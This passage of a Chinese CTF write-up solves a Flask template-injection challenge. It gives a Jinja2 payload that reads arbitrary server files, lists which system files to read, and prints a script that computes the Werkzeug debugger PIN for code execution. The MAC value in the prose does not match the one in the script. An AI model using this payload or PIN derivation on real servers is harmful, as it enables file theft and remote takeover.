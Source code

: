但是需要注意的是`{{''.__class__.__bases__[0].__subclasses__()}}`并不会有任何回显，需要`subclasses__()[xx]`慢慢找

预期解是算pin码然后用debug来RCE；

#### 读取6个参数计算pin码

任意文件读取的payload是：

```
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}
```

其中filename是文件名称

 

通过PIN码生成机制可知，需要获取如下信息

- 服务器运行flask所登录的用户名。通过`/etc/passwd`中可以猜测为`flaskweb` 或者`root`，此处用的`flaskweb`
- modname。一般不变就是flask.app
- `getattr(app, “__name__”, app.__class__.__name__)`。python该值一般为Flask，该值一般不变
- flask库下app.py的绝对路径。报错信息会泄露该值。题中为`/usr/local/lib/python3.7/site-packages/flask/app.py`
- 当前网络的mac地址（十六进制）的十进制数。通过文件`/sys/class/net/eth0/address` 获取(eth0为网卡名)，我开的BUU的docker为`02:42:ae:01:2d:af` ，转换后为`2485410376060`
- 机器的id：对于非docker机每一个机器都会有自已唯一的id
  Linux：`/etc/machine-id`或`/proc/sys/kernel/random/boot_i`，有的系统没有这两个文件
  [Windows](https://www.cnblogs.com/HacTF/p/8160076.html)
  docker：`/proc/self/cgroup`



获取了6个值之后，可以利用exp计算pin码

```
import hashlib
from itertools import chain
 
probably_public_bits = [
    'flaskweb',  # 服务器运行flask所登录的用户名
    'flask.app',  # modname
    'Flask',  # getattr(app, "\_\_name__", app.\_\_class__.\_\_name__)
    '/usr/local/lib/python3.7/site-packages/flask/app.py',  # flask库下app.py的绝对路径
]
 
private_bits = [
    '2485410409903',  # 当前网络的mac地址的十进制数
    '0a1d70fa2590282a8abb5e96d8f175b147dd2477459d97c179af421feb9260cd'  # 机器的id
]
 
h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
cookie_name = '__wzd' + h.hexdigest()[:20]
num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]
rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
```